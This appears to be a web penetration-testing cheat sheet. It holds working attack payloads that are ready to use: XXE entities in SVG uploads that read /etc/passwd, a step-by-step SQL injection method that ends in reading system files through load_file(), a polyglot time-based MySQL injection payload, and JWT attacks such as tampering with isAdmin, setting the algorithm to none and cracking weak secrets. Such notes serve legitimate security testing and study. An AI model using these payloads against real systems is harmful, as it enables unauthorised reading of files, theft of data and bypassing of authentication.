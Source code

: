 #### XXE File Upload SVG

```powershell
#https://0xatul.github.io/posts/2020/02/external-xml-entity-via-file-upload-svg/

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>

<?xml version="1.0" encdoing="UTF-8" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="14" x="0" y="16">&xxe;</text></svg>  

```



#### SQL Injection

```powershell

1)Error generation with untrusted input or special characters.
2)Finding total number of columns with order by or group by or having.
3)Finding vulnerable columns with union operator.
4)Extracting basic information like database(), version(), user(), UUID() with concat() or group_concat().
5)Extracting full table and column names with group_concat() and extracting the data with same function.
6)Checking file privileges with file_priv.
7)Accessing system files with load_file(). and advance exploitation afterwards.
WAF evasion if any.
```


#### Ultimate MySQL Injection Payload (Detetify)

```sql
#https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/

IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/


```

#### JWT Exploiting

```powershell
#https://github.com/wisec/OWASP-Testing-Guide-v5/blob/master/Testing_for_APIs.md

Full details above.

1) Access JWT Debugger too base64 decode and ensure that nothing sensitive is being transferred. Make sure no PII is being transferred etc.
	2) Try chang esome values and obtain IDOR, like `id` or `isAdmin`
	3) Modigy ALG attribute, set HS256 to null


4) JWT Crack - https://github.com/brendan-rius/c-jwt-cracker - Secret used to encrypt tokens may be weak.
```
